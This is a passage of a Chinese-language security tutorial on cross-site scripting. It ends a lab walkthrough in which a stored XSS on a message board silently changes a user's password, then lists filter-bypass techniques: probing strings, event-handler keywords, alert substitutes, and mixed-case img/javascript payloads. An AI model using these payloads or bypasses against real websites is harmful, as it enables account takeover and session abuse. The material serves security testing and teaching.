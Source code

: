 [![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c5663ab697318bc59e2b875e289f0e9403ea22a5.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c5663ab697318bc59e2b875e289f0e9403ea22a5.png)  
5.当点击留言板时  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b90d2cb07ab4337d28518b7ac339f36f1617dd50.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b90d2cb07ab4337d28518b7ac339f36f1617dd50.png)  
6.登入原始的账户和密码，通过burp可以看到密码输入不正确，说明密码已经被服务器改了  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-750d98e28e6cf9fb6639c4108ba00826042ce89e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-750d98e28e6cf9fb6639c4108ba00826042ce89e.png)  
使用修改后的111进行登录看看，登录成功。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e5710aa472ff1bdf73d7b9f727006c43084ab347.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e5710aa472ff1bdf73d7b9f727006c43084ab347.png)

利用与绕过
-----

为了避免XSS漏洞的存在，通常应用会对用户输入进行一定的安全处理后再输出的HTML中，在进行XSS漏洞测试时需要推测出应用的安全处理方法(即防护规则)，并采用对应的绕过方式来进行绕过测试。通常防护规则会检测输入中是否有html标签或脚本的关键字并进行处理，根据处理方法的不同可分为过滤、编码、删除、插入等，有时会使用多种方法共同防护。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f74856b40e7d113a2c78d7e095eb5c0e91232eed.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f74856b40e7d113a2c78d7e095eb5c0e91232eed.png)

### 1.利用符号判断语句

```html
";!--"<XSS> =&{()}
```

**关键字判断:** script、alert、javascript、expression等......  
1.常见事件属性:

```html
onerror
onmouseover
onclick
onload
oninput
oncut
onscroll
..........
```

2.alert()的替代词:confirm()、prompt()

### 2.大小写绕过：

```html
<img src="javascript:alert(0);">
<IMG SRC="javascript:alert(0);">
<iMg sRC="jaVasCript:alert(0);">

<img src=1 onerror="alert(/1/)">
<iMg sRc=1 oNerror="alert(/1/)">
```
